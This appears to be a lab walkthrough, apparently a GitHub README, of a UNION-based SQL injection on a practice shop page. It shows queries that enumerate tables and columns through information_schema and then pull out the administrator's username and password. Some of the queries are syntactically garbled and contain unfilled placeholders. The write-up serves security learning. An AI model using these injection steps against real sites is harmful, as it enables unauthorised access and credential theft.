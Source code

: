 This is the vulnerable webpage to perform SQL Injection attack,for listing the contents.

![image](https://user-images.githubusercontent.com/65653010/235273956-763e3da6-02a6-4368-8b8c-0fadc700f41b.png)

We perform a query to verify both the columns have text content in them

SELECT * FROM someTable WHERE category=Gifts UNION SELECT 'abc' 'def'

![image](https://user-images.githubusercontent.com/65653010/235274029-5fcc6f6d-3fe0-4875-962b-5359eb4c6736.png)

The query is confirmed. Now we perform a next query to get the information of a users table

SELECT * FROM someTable WHERE category=Gifts UNION SELECT table_name NULL FROM information_schema.tables

![image](https://user-images.githubusercontent.com/65653010/235329446-8ef32a9d-3b66-4af9-9d5b-4007788624a3.png)

Now we extract columns which contain username and password using query

SELECT * FROM someTable WHERE category=Gifts UNION SELECT column_name NULL FROM information_schema.columns WHERE table_name=''

By this query we retrieve the username and passwords

![image](https://user-images.githubusercontent.com/65653010/235329544-150919b5-ead3-4b45-8d74-f01666fd00e9.png)

![image](https://user-images.githubusercontent.com/65653010/235329554-3ab0db6f-45b0-40a5-8aa5-d4d779fbc258.png)

After we derive the columns of username and password, we perform this query to get the password ofg administrator


SELECT * FROM someTable WHERE category=Gifts UNION SELECT (username column) (password column) FROM (users table)

![image](https://user-images.githubusercontent.com/65653010/235329735-c744da42-7b41-4f80-8d63-95d5fb9c0c7c.png)

![image](https://user-images.githubusercontent.com/65653010/235329762-8e5cd54a-5277-4971-9d71-455ebe2644ba.png)


